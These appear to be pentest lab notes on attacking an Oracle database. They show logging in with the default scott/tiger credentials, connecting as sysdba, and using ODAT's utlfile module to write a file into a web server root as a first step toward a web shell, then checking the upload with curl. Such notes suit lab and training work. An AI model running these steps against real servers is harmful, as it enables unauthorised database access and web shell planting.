 Logging in 
```shell-session
sqlplus scott/tiger@10.129.152.189/XE
```

If you come across the following error `sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory`, please execute the below, taken from [here](https://stackoverflow.com/questions/27717312/sqlplus-error-while-loading-shared-libraries-libsqlplus-so-cannot-open-shared).
```shell-session
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```

Trying to log in as system database admin 
```shell-session
sqlplus scott/tiger@10.129.204.235/XE as sysdba
```

# Opening web shell to the target
Default paths:

|**OS**|**Path**|
|---|---|
|Linux|`/var/www/html`|
|Windows|`C:\inetpub\wwwroot`|
```shell-session
echo "Oracle File Upload Test" > testing.txt


./odat.py utlfile -s 10.129.204.235 -d SID -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```

see if its uploaded with curl 
```shell-session
curl -X GET http://10.129.204.235/testing.txt
```
